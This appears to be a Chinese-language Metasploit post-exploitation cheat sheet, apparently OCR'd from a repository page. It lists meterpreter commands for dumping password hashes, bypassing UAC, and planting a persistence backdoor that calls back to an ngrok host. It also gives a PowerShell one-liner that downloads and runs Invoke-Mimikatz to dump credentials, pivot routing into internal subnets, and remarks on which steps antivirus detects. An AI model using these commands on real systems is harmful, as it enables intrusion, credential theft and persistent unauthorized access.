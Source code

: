 >   meterpreter > getuid
>
>   meterpreter > getpid
>
>   meterpreter > ps
>
>   meterpreter > migrate 676

### Msf hash

>   meterpreter > run hashdump    sys
>
>   meterpreter > run post/windows/gather/smart_hashdump  需要 sys 权限

getsystem 存在 uac，用 msf bypass，但特征明显

>   meterpreter > search bypassuac

>   msf powerdump load mimikatz 不太好用

### Msf 的持续后门

****Persistence:** **

``run persistence -h`` 用于创建启动项启动，会创建注册表，创建文件。（X86_Linux 不支持此脚本）

>   run persistence -U -i 10 -p 10390 -r free.ngrok.cc

会被 360 拦，-i 10 10 秒请求一次, 使用 powershell 执行也被监控而被 360 拦截

meterpreter 的 ``run getgui -e`` 命令可以开启成功。360 会提示阻止

``Run metsvc -h`` ：用于创建服务，会创建 meterpreter 服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦

### Msf powershell

>   meterpreter > load powershell
>
>   meterpreter > powershell_shell
>
>   PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
>
>   Ps > Invoke-Mimikatz -DumpCreds

### Msf Router

2 个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器 shell session  添加路由，使 msf 可以在当前 shell session 下以被攻击机访问其他内网主机，

>   meterpreter > run get_local_subnets
>
>   meterpreter > run autoroute -s 172.17.0.0/16  添加路由
>
>   meterpreter > run autoroute -p  查看路由
>
>   meterpreter > run autoroute -d -s 172.17.0.0/16  删除
